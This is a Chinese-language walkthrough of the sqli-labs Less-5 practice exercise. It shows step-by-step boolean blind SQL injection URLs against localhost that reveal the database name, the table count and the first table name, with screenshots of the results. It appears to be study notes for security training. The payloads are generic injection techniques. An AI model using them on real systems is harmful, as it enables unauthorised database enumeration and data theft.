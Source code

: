 在浏览器提交合法id值和不合法的id值，其显示结果不同

<img src="C:/Users/HP/AppData/Roaming/Typora/typora-user-images/image-20220212094856662.png" alt="image-20220212094856662" style="zoom: 50%;" />

<img src="https://gitee.com/YatJay/image/raw/master/img/202202120949914.png" style="zoom: 50%;" />

因此可以进行布尔盲注

### 判断数据库名长度

`http://localhost/pentest/sqlilabs/Less-5/?id=-1' or length(database())=8--+`

说明数据库名的长度为8

![](https://gitee.com/YatJay/image/raw/master/img/202202121025794.png)

### 判断数据库名字符

`http://localhost/pentest/sqlilabs/Less-5/?id=1' and ascii(substr(database(),1,1))=115--+`

说明数据库名第一个字符为s

![](https://gitee.com/YatJay/image/raw/master/img/202202121027929.png)

依次得到数据库名为`security`

### 判断表的总数

`http://localhost/pentest/sqlilabs/Less-5/?id=1' and (select count(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database())=4--+`

得到表名总数为4，共计4张表

![](https://gitee.com/YatJay/image/raw/master/img/202202121031512.png)

### 判断数第一张表的表名长度

`http://localhost/pentest/sqlilabs/Less-5/?id=1' and (select length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1 )=6--+`

得到第一张表的表名长度为6

![](https://gitee.com/YatJay/image/raw/master/img/202202121033180.png)

### 判断第一张表的表名字符

`http://localhost/pentest/sqlilabs/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101--+`

得到第一张表的表名第一个字符为`e`

![](https://gitee.com/YatJay/image/raw/master/img/202202121058513.png)

依次的到第一张表的表名为`emails`
